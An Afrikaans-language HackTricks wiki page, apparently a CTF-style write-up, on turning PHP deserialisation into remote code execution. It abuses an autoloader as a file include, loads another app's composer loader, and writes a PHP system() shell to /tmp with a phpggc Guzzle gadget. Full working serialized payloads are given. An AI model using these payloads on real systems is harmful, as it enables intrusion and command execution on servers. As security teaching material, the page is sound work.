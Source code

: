 # PHP - Deserialisering + Laai Klasse

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Ekspert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Ekspert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Eerstens, jy moet kyk wat [**Laai Klasse**](https://www.php.net/manual/en/language.oop5.autoload.php) is.

## PHP deserialisering + spl\_autoload\_register + LFI/Gadget

Ons is in 'n situasie waar ons 'n **PHP deserialisering in 'n webapp** gevind het met **geen** biblioteek wat kwesbaar is vir gadgets binne **`phpggc`** nie. Tog, in dieselfde houer was daar 'n **ander komponis webapp met kwesbare biblioteke**. Daarom was die doel om die **komponislaaier van die ander webapp** te **laai** en dit te misbruik om 'n **gadget te laai wat daardie biblioteek met 'n gadget** van die webapp wat kwesbaar is vir deserialisering, sal ontplof.

Stappe:

* Jy het 'n **deserialisering** gevind en daar **is geen gadget** in die huidige app kode nie
* Jy kan 'n **`spl_autoload_register`** funksie soos die volgende misbruik om **enige plaaslike lêer met `.php` uitbreiding** te **laai**
* Hiervoor gebruik jy 'n deserialisering waar die naam van die klas binne **`$name`** gaan wees. Jy **kan nie "/" of "."** in 'n klasnaam in 'n geserialiseerde objek gebruik nie, maar die **kode** vervang die **onderstrepings** ("\_") **met skewe streepies** ("/"). So 'n klasnaam soos `tmp_passwd` sal omgeskakel word na `/tmp/passwd.php` en die kode sal probeer om dit te laai.\
'n **Gadget voorbeeld** sal wees: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
As jy 'n **lêeroplaai** het en 'n lêer met **`.php`-uitbreiding** kan oplaai, kan jy hierdie funksionaliteit direk **misbruik** en reeds RCE kry.
{% endhint %}

In my geval, het ek niks soos dit gehad nie, maar daar was binne die **dieselfde houer** 'n ander komponis webblad met 'n **biblioteek wat kwesbaar is vir 'n `phpggc` gadget**.

* Om hierdie ander biblioteek te laai, moet jy eers die **komponislaaier van daardie ander webtoepassing laai** (want die een van die huidige toepassing sal nie toegang hê tot die biblioteke van die ander nie.) **Deur die pad van die toepassing te ken**, kan jy dit baie maklik bereik met: **`O:28:"www_frontend_vendor_autoload":0:{}`** (In my geval was die komponislaaier in `/www/frontend/vendor/autoload.php`)
* Nou kan jy die **ander app komponislaaier laai**, so dit is tyd om die **`phpgcc`** **payload** te genereer om te gebruik. In my geval het ek **`Guzzle/FW1`** gebruik, wat my toegelaat het om **enige lêer binne die lêerstelsel te skryf**.
* LET WEL: Die **gegenereerde gadget het nie gewerk nie**, om dit te laat werk het ek daardie payload **`chain.php`** van phpggc **gewysig** en **alle eienskappe** van die klasse **van privaat na publiek** gestel. As dit nie gedoen word nie, het die eienskappe van die geskepte objek na deserialisering van die string geen waardes gehad nie.
* Nou het ons die manier om die **ander app komponislaaier te laai** en 'n **phpggc payload wat werk**, maar ons moet dit **in dieselfde versoek doen sodat die laaier gelaai kan word wanneer die gadget gebruik word**. Hiervoor het ek 'n geserialiseerde array met albei objekte gestuur soos:
* Jy kan **eers die laaier sien wat gelaai word en dan die payload**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Nou kan ons **'n lêer skep en skryf**, egter, die gebruiker **kon nie in enige gids binne die webbediener skryf nie**. Soos jy in die payload kan sien, word PHP **`system`** met 'n paar **base64** geskep in **`/tmp/a.php`**. Dan kan ons **die eerste tipe payload hergebruik** wat ons gebruik het as LFI om die composer loader van die ander webapp te laai **om die gegenereerde `/tmp/a.php`** lêer te laai. Voeg dit net by die deserialisering gadget:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Samevatting van die payload**

* **Laai die composer autoload** van 'n ander webapp in dieselfde houer
* **Laai 'n phpggc gadget** om 'n biblioteek van die ander webapp te misbruik (die aanvanklike webapp wat kwesbaar was vir deserialisering het nie enige gadget in sy biblioteke gehad nie)
* Die gadget sal **'n lêer met 'n PHP payload** daarop in /tmp/a.php met kwaadwillige opdragte skep (die webapp gebruiker kan nie in enige gids van enige webapp skryf nie)
* Die finale deel van ons payload sal **die gegenereerde php-lêer laai** wat opdragte sal uitvoer

Ek moes **hierdie deserialisering twee keer aanroep**. In my toetsing is die eerste keer die `/tmp/a.php` lêer geskep maar nie gelaai nie, en die tweede keer is dit korrek gelaai.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
